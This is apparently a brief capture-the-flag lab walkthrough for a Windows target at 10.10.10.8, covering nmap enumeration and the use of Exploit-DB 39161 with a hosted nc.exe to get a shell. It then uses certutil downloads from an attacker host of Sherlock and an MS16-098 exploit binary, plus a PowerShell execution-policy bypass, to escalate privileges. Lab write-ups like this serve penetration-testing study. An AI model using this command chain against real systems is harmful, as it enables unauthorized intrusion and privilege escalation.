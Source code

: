 # Enumeration
- We use `nmap -p- -A -Pn 10.10.10.8` to enumerate:![](attachment/ec15bca60a15214ce84e25bfdf5cb9c2.png)
- We found a website:![](attachment/b646d9528764eb0025f41cde0f628982.png)
# Exploitation
- We used the exploit https://www.exploit-db.com/exploits/39161 we need nc.exe ![](attachment/ec4b94d7a5013d5fbbbda03f1afd6b1b.png)
- we can find it in /usr/share/windows-resources/binaries/nc.exe and paste it into our Downloads/optimum folder
- We modify the ip in the exploit file![](attachment/5cd09758f6fdba139deca9a91f0ba02f.png)
- `python3 -m http.server 80` and host our current directory for the nc.exe file
- We keep running the exploit with `python 39161.py 10.10.10.8 80` to get the shell:![](attachment/17bf9c07ceb34a265c0248fb49202463.png)
- Then we upload sherlock(https://github.com/rasta-mouse/Sherlock) using `certutil -urlcache -f http://10.10.14.25/sherlock.ps1 sherlock.ps1` 
- Then use it to look for vulnerabilites using: `powershell.exe -exec bypass -Command "& {Import-Module .\sherlock.ps1; Find-AllVulns}"` : ![](attachment/fdac778fe513d4cdf0126d260eb1ac11.png)
- We can also use wesng(https://github.com/bitsadmin/wesng)
- We use https://github.com/sensepost/ms16-098/blob/master/bfill.exe to get privilege escalation by uploading the file first `certutil -urlcache -f http://10.10.14.25/bfill.exe bfill.exe` and then executing it `bfill.exe`:![](attachment/e7f399854085fbe8802369fbcf4a0098.png) We get a root shell.